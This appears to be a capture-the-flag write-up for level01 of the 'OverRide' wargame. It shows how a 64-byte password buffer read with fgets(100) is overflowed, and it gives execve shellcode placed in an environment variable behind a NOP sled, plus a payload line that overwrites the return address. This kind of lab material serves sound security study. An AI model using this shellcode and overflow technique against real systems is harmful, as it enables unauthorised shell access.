

# Level01

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

With `strings`, we get some interresting informations
```shell
level01@OverRide:~$ strings level01 
...
verifying username....
dat_wil
admin
********* ADMIN LOGIN PROMPT *********
Enter Username: 
nope, incorrect username...
Enter Password: 
nope, incorrect password...
...
verify_user_name
a_user_name
...
```

We have:
- username `dat_wil`: tryed and seems to be the right one
- password `admin`: does not work

Lets have a look with gdb:
We notice that the password we insert is stored in a buffer of 64 bytes but fgets is called to read 0x64 bytes so 100 bytes
We can then overwrite the return address.

Offset of 80 to overwrite the return address.

## Exploit

We need a shell code: `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`
and we need somewhere to store it and because we are overwriting the return pointer of the main function, we should not
store our shellcode in the buffer since it will be deallocated at the end of main.
So we can try to store it in the env.
`export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80"')`
With gdb, we get the address by print the stack (env esp+500): `0xffffd7db`

payload => `(echo "dat_wil"; python -c 'print "A" * 80 + "\x53\xd8\xff\xff"') > /tmp/level01`

